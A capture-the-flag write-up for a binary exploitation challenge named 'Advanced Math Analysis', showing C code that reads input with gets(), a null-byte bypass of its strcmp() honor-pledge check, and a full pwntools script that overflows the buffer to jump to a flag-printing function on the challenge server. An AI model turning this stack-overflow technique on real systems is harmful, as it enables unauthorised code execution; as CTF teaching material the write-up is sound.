





# Advanced Math Analysis

## Problem

The advanced course covers the same content as the non-advanced course and then some. Specifically, it also teaches some units on logic and geometry.

Now, I'm personally not the biggest fan of geometry, so I'll spare you from that. But you'll definitely need to spend some time _logic_ing this challenge out!

## Solution

This is the same challenge as before, except there is a `strcmp()` check.

```c
char response[50];

setbuf(stdout, NULL);
setbuf(stdin, NULL);
setbuf(stderr, NULL);

...

gets(response);

if (strcmp(response, "i pledge to not cheat")) {
    puts("I'm sorry, but you did not type out the honor pledge.");
    puts("This obviously means that you are a cheater.");
    puts("And we certainly cannot have that.");
    puts("Goodbye.");
    exit(1);
}
```

Win function:

```c
void cheat() {
    FILE *fp = fopen("flag.txt", "r");
    char flag[100];

    if (fp == NULL) {
        puts("My bad, I can't find the answers.");
        puts("Oh wait, that's a foodable offense!");
        puts("[If you are seeing this on the remote server, please contact admin].");
        exit(1);
    }

    fgets(flag, sizeof(flag), fp);
    puts(flag);
}
```

Here, my tool wouldn't work due to the `strcmp()` check. `strcmp()` only returns 0 when both strings are equal, so it is checking that our input string is equal to `"i pledge to not cheat"`.

The flaw in this is that `strcmp()` only compares up to the point where either 

1. The strings differ, OR
2. A terminating null byte is reached.

In Linux, we can type a null byte using CTRL-@. This will bypass the `strcmp()` check.



Now, using our debugger, we can find the part of the pattern that overwrote the RIP.



The offset is 50. However, note that this means 50 characters **after** the null byte.



Using redare2, we find that the address of the cheat function is 0x00401216.



```python
from pwn import *

ret = 0x00401216
offset = 50
payload = b"i pledge to not cheat"
payload += b"\x00"
payload += b"A" * offset
payload += p64(ret)
print(payload)

conn = remote('bin.bcactf.com', 49156)

print(conn.recv())
print(conn.recv())

print("\nSending payload...")
conn.send(payload + b"\n")

print(conn.recv())
print(conn.recv())

conn.close()
```



